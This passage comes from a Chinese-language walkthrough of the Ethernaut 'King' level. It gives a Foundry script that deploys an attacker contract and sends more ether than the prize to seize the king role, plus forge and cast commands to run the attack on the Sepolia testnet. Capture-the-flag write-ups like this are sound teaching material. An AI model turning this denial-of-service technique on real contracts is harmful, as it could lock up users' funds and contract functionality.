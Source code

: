 还需要一个脚本去部署 `Attacker` 合约并发送大于当前 `prize` 的 ether 数量成为 `king`

```
address levelAddr = 0xDB22a38C8d51dc8CF7bfBbffAb8f618cFE148a04;

Attacker attacker = new Attacker(levelAddr);

King target = King(payable(levelAddr));

// 计算需要给攻击合约至少发送多少 ether
uint minValue = target.prize() + 1;
(bool success, ) = address(attacker).call{value: minValue}("");
require(success, "Failed to send Ether to the attacker contract");

// 攻击合约发动攻击
attacker.attack(minValue);
```

完整代码见：[这里](ethernaut/script/level09.s.sol)

Foundry 脚本：

调用脚本部署并发动攻击：
```
forge script script/level09.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

查询当前 king
```
cast call <level address> \
"_king()(address)" \
--rpc-url sepolia
```

查询当前 prize
```
cast call <level address> \
"prize()(uint256)" \
--rpc-url sepolia
```

尝试获取king
```
cast send <level address> \
--value <value greate than prize> \
--rpc-url sepolia \
--private-key <your private key>
```

链上记录：
- [level(`King`) 实例](https://sepolia.etherscan.io/address/0xDB22a38C8d51dc8CF7bfBbffAb8f618cFE148a04)
- [attack](https://sepolia.etherscan.io/tx/0xbead529e69d0027837c5329fc591b96b5b08cb317d64995e25cc7a82822642ae)


## lelve 10
